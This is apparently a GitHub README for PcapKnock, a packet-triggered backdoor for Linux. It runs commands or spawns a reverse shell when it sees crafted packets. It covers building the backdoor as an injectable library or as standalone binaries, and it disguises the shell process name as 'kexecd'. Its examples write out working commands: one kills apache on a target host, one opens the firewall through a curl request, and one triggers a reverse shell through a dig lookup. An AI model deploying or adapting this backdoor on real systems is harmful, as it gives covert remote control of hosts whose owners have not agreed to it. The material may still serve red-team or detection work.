 PcapKnock
=========
PcapKnock listens for specially-crafted packets and either runs a command or
spawns a reverse shell based on the contents of the packets.  It is meant for
use as a PoC; there is no encryption or authentication.  It can either be built
as a standalone binary or an injectable binary.

For legal use only.

Usage
-----
In most cases, the [`build.sh`](./build.sh) script is sufficient to build:
```bash
$ ./build.sh
C Flags:      "-O2 -Wall --pedantic"
Defines:      ""
Linker Flags: "-lpcap -lpthread"
Building library...pcapknock.so
Building static binary...pcapknock.static
Building dynamic binary...pcapknock.dynamic
```
This will generate three files:
- `pcapknock.so`, an injectable library which spawns a thread on load
- `pcapknock.static`, a statically-linked standalone binary
- `pcapknock.dynamic`, a dynamically-linked standalone binary

Once running, by default PcapKnock will listen on all interfaces (on Linux),
for packets containing one of two triggers, either `COMMAND<command>COMMAND` to
run a command or `CALLBACK<address>:<port>CALLBACK` to spawn a reverse shell to
the given address and port.  See the [Configuration](#Configuration) section
for more information on changing defaults.

Examples
--------
The following examples assume PcapKnock is configured with its default
settings.

Kill apache on 192.168.0.2:
```bash
# Port doesn't matter as long as a PSH is made
echo COMMANDpkill apache2COMMAND | nc -u 192.168.0.2 22
```
Punch a hole in the firewall using a legit web request:
```bash
curl --data 'COMMANDiptables -I INPUT -p tcp --dport 22 -j ACCEPTCOMMAND' https://192.168.0.2
```
Spawn a reverse shell to `192.168.0.3:4444` using a DNS request which will be
recursed to example.com:
```bash
dig CALLBACK192.168.0.3:4444CALLBACK.example.com & nc -nvl 4444
```

Configuration
-------------
Configuration takes place in the form of C defines.  Defaults are set in
[`pcapknock.h`](./pcapknock.h), but can be changed at compile time by passing
`-DOPTION=value` to the compiler.  The included build script passes whatever
is in the `DEFINES` environment variable to the compiler to enable compile-time
configuration.  For convience, the `DEVICE` environment variable may be set to
change the device on which traffic is monitored.

The configurable settings are:

Setting       | Default    | Description
--------------|------------|---------------------------------
`DEVICE`      | `any`      | Device on which to sniff packets
`SHELLNAME`   | `kexecd`   | Shell process name (i.e. `argv[0]`)
`CBMARKER`    | `CALLBACK` | Marker for reverse shell addresses
`CMDMARKER`   | `COMMAND`  | Marker for commands
| | |It is unlikely the below will need to be changed |
`MAXKNOCK`    | `4096`     | Maximum command/address length
`CLMAXFD`     | `10240`    | Maximum filedescriptor number to close after fork
`CONSTRUCTOR` | _unset_    | If defined, runs as a constructor (for injection)
`ERROUT`      | _unset_    | If defined, outputs error messages to stdout

Only the first four will likely need to be changed in most cases.
